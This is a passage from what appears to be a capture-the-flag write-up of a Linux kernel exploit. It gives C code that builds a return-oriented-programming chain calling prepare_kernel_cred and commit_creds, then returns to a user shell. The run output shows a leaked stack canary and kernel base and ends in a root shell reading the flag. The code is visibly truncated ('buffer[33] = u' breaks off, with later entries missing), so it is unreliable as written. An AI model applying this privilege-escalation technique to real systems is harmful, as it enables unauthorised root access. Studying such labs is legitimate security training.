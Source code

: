 ```c
    buffer[19] = 0;
    buffer[20] = prepare_kernel_cred;
    buffer[21] = pop_rbx__ret;
    buffer[22] = 0;
    buffer[23] = mov_rdi_rax_rbxjump_ret;
    buffer[24] = 0; // dummy
    buffer[25] = commit_creds;
    buffer[26] = swapgs_popfq_ret;
    buffer[27] = 0; // dummy
    buffer[28] = iretq;
    buffer[29] = (uint64_t)&get_shell + 8;
    buffer[30] = user_cs;
    buffer[31] = user_rflags;
    buffer[32] = user_sp;
    buffer[33] = u
    int write_length = 36 * 8;
    control_write(buffer, write_length); //ROP   
    return 0;
}
```

+ result

```bash
uid=1000(ctf) gid=1000 groups=1000
~ $ /exploit 
[   21.611605] Device opened
[   21.612734] IOCTL Called
[   21.613485] You passed in: 11000

[   21.623803] Device opened
[   21.625538] 160 bytes read from device
20656d6f636c6557
2073696874206f74
70206c656e72656b
6569726573206e77
ffff8d22c0830073
20000c31ad040
ffff8d22c0837c10
100020000
0
ffff8d2200000000
0
0
0
0
4fd3c534e7154500
a0
4fd3c534e7154500
a0
ffffffffb903e347
1
canary: 0x4fd3c534e7154500
kernel base: 0xffffffffb8e00000
[   21.687517] Device opened
[   21.688732] IOCTL Called
pop rdi address: 0xffffffffb8e01518
33 246 7ffe0e167800 2b
[   26.616725] Device opened
[   26.618879] 288 bytes written to device
/bin/sh: can't access tty; job control turned off
/home/ctf # id
uid=0(root) gid=0
/home/ctf # cat /flag.txt
```